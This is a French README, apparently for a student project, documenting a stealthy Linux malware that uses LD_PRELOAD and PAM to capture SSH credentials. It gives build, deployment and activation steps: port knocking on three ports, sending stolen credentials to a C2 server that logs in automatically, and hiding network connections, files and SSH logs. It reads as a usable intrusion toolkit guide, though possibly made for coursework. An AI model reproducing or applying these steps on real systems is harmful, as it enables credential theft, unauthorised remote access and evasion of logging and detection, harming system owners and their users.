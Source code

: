  # Malika MECHKAL 3SI2

🛠️ README : Malware avec LD_PRELOAD & Port Knocking

📌 Introduction
Ce projet implémente un malware furtif exploitant LD_PRELOAD et PAM (Pluggable Authentication Modules) pour capturer les identifiants SSH et masquer sa présence sur la machine cible.

Le malware est activé via un mécanisme de Port Knocking nécessitant une séquence secrète de frappes sur les ports 1111, 2222 et 3333. Une fois activé, il intercepte les connexions SSH, récupère les identifiants et établit une connexion ssh automatique avec un serveur C2.

🔹 Fonctionnalités
    Port Knocking : Activation secrète du malware en écoutant sur 3 ports.
    Interception des identifiants SSH avec PAM.
    Masquage des connexions réseau via hide_connections.so.
    Masquage des fichiers malveillants via hide_files.so.
    Suppression et blocage des logs via hide_logs.so.
    Connexion ssh automatique sur la cible depuis serveur C2 après interception des identifiants.

📂 Installation & Exécution
#  1- Configuration des IPs
Avant de compiler, assurez-vous de configurer les IP correctes dans les fichiers malware.c et server.c :

```
#define C2_IP "192.168.18.128"  // IP du serveur C2
#define TARGET_IP SI"192.168.18.130"  // IP de la machine cible

```

# 2- Compilation du projet
Sur la machine serveur C2, utilisez make pour compiler tous les fichiers 

```
make 

```
Cela génère les exécutables suivants :
*   server
*   port_knock
*   malware.so
*   hide_connections.so
*   hide_files.so
*   hide_logs.so

# 3-  Transfert des fichiers vers la machine cible
Transférez les fichiers générés (sauf server) vers /tmp/ sur la machine cible :

```
scp port_knock malware.so hide_connections.so hide_files.so hide_logs.so user@192.168.18.130:/tmp

```
# 4-  Préparation de la machine cible
Sur la machine cible, désactivez SSH et préparez l’environnement :

```
sudo systemctl stop ssh
sudo mkdir -p /run/sshd
sudo chmod 755 /run/sshd

```

# 5- Lancement du Port Knocking
Sur la machine cible, exécutez port_knock en mode root dans le dossier /tmp:

```
sudo ./port_knock
```

# 6- Lancement du serveur C2
Sur la machine serveur C2 :

```
./server

```
Le serveur attend la frappe secrète des ports pour activer le malware.

# 7- Activation automatique du malware
Lorsque le C2 envoie des paquets aux ports 1111, 2222 et 3333, la machine cible détecte la séquence et démarre le malware avec LD_PRELOAD(malware.so).

# 8- Connexion SSH automatique & interception
*   Après activation, la machine cible attend une connexion SSH.
*   Lorsqu’un utilisateur se connecte en SSH, les identifiants sont interceptés et envoyés au serveur C2.
*   Le serveur C2 utilise ces identifiants pour se connecter automatiquement à la machine cible.
*   Un fichier credentials.log est créé à la racine du serveur avec les identifiants capturés.

# 9- Tests & Vérifications
Masquer les connexions réseau
Sur la machine cible, exécutez :

```
sudo LD_PRELOAD=/tmp/hide_connections.so netstat -tulnp

```
    => Les ports 1111, 2222 et 3333 doivent être invisibles.

# 10- Masquer les fichiers malveillants
Sur la machine cible, exécutez :

```
sudo LD_PRELOAD=/tmp/hide_files.so ls -la /tmp

```
    => Les fichiers du malware (malware.so, hide_*.so) ne doivent pas apparaître.

# 11- Masquer les logs
Sur la machine cible, exécutez :

```
sudo LD_PRELOAD=/tmp/hide_logs.so journalctl -xe

```
    => Les logs liés aux connexions SSH ne doivent plus apparaître.

# /!\######## Problème avec la branche DEV_USER_NON_ROOT
Une tentative a été faite pour exécuter port_knock sans être root, mais cela a posé des problèmes de clés SSH.

Même en copiant correctement les clés dans /tmp/ssh, l’authentification ne fonctionnait pas.



